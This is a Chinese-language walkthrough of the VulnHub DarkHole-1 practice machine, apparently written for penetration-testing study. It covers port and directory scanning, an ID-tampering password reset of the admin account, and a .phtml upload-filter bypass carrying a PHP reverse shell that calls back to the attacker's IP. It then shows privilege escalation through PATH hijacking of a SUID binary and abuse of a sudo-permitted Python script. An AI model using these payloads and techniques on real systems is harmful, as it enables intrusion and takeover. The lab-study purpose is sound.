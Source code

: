 靶机地址：https://www.vulnhub.com/entry/darkhole-1,724/

## 信息收集 

```bash
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-1]
└─$ sudo nmap -sT  --min-rate=10000 -p- 172.16.31.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 09:51 CST
Nmap scan report for 172.16.31.16
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:28:53:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.50 seconds

```

详细信息扫描

```bash
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-1]
└─$ sudo nmap -sT -sC -sV -O -p22,80 172.16.31.16 -oA nmapscan/detail
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 09:55 CST
Nmap scan report for 172.16.31.16
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e4:50:d9:50:5d:91:30:50:e9:b5:7d:ca:b0:51:db:74 (RSA)
|   256 73:0c:76:86:60:63:06:00:21:c2:36:20:3b:99:c1:f7 (ECDSA)
|_  256 54:53:4c:3f:4f:3a:26:f6:02:aa:9a:24:ea:1b:92:8c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:28:53:5E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds

```

漏洞扫描

```bash
nmap --script=vuln -p 22,80 172.16.31.16 -oA nmapscan/vulns

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 09:56 CST
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.52% done; ETC: 09:56 (0:00:00 remaining)
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.52% done; ETC: 09:56 (0:00:00 remaining)
Nmap scan report for 172.16.31.16
Host is up (0.00022s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.16.31.16
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://172.16.31.16:80/login.php
|     Form id: login__username
|     Form action: login.php
|     
|     Path: http://172.16.31.16:80/register.php
|     Form id: login__username
|_    Form action: 
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /login.php: Possible admin folder
|   /config/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|_  /upload/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
MAC Address: 00:0C:29:28:53:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 33.07 seconds

```

目录扫描

```bash
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-1]
└─$ gobuster dir -u http://172.16.31.16 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.31.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 313] [--> http://172.16.31.16/upload/]
/css                  (Status: 301) [Size: 310] [--> http://172.16.31.16/css/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.31.16/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.31.16/config/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```



## WEB渗透

### 越权，任意密码修改

访问80端口

![image-20240824095910066](./imgs/image-20240824095910066.png)

点击login，注册一个hacker用户，登录后跳转到能够更改用户密码的页面

![image-20240824100712153](./imgs/image-20240824100712153.png)

抓包改一下密码，看看数据包长什么样子

![image-20240824101119333](./imgs/image-20240824101119333.png)

发现有两个`id`，我们新建的用户id为2，那么原有的用户id应该1，尝试将body里的id修改为1，返回修改成功

![image-20240824101359197](./imgs/image-20240824101359197.png)

猜测原来的用户名为admin，密码刚才我们已经成功修改为admin了，尝试登录

![image-20240824101533014](./imgs/image-20240824101533014.png)

### 文件上传

经过测试，这里上传文件只对后缀名进行了过滤，当我们上传`php`后缀的文件时会失败，但是上传`phtml`后缀的文件是可以的。这里可以上传一句话木马用蚁剑进行连接，也可以直接上传反向连接的php代码，我们使用后者。

![image-20240824102226834](./imgs/image-20240824102226834.png)

![image-20240824102432445](./imgs/image-20240824102432445.png)

```php
<?php system("bash -c 'bash -i >& /dev/tcp/172.16.31.17/5899 0>&1'"); ?>
```

> 让目标主机反向连接172.16.31.17（即攻击机）的5899端口

![image-20240824101938529](./imgs/image-20240824101938529.png)

kali这边先做好监听，点击上传的`phtml`后缀文件，触发反向连接

![image-20240824102514692](./imgs/image-20240824102514692.png)

## 提权

查看有哪些可登录的用户

```bash
cat /etc/passwd|grep /bin/bash
```

![image-20240824102936393](./imgs/image-20240824102936393.png)

发现了一个`john`用户

再看看其他suid权限的文件有哪些

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image-20240824103030395](./imgs/image-20240824103030395.png)

发现可疑文件`/home/john/toto`，直接执行该文件

![image-20240824103145970](./imgs/image-20240824103145970.png)

观察其输出，不难猜测，该文件调用了`id`命令，因此我们可以采用命令劫持的方式进行提权

```bash
echo 'chmod +s /bin/bash' > id            #在当前文件夹下写一个id文件
chmod 777 id                              #更改权限
export PATH=/var/www/html/upload:$PATH    #将当前路径加入环境变量
/home/john/toto                           #执行该文件，会调用我们重写的id
```

![image-20240824103515897](./imgs/image-20240824103515897.png)

执行时发现我们的**chmod +s**命令发生了权限错误，即我们无法让自己写的id文件拥有SUID权限，那么只能先放弃在这里进行提权，先使用**john**的身份进行登录



```bash
echo '/bin/bash' > id
/home/john/toto
python3 -c 'import pty;pty.spawn("/bin/bash")'   #创建交互式shell
```

![image-20240824104317985](./imgs/image-20240824104317985.png)

看到我们已经以**john**的身份登录进来了。
在`/home/john/`下发现`password`文件

![image-20240824104144030](./imgs/image-20240824104144030.png)

得到john用户的密码**root123**

查看John用户可执行的特权命令

![image-20240824104359765](./imgs/image-20240824104359765.png)

看到John用户可以以root身份运行`python3`和`file.py`。
因此我们可以尝试修改`file.py`的内容

```
echo "import pty;pty.spawn('/bin/bash')" > file.py
```

![image-20240824104608723](./imgs/image-20240824104608723.png)

> > 在这里有一个坑，当我们使用相对路径时会无法执行，使用绝对路径时才可以，我也不知道为啥
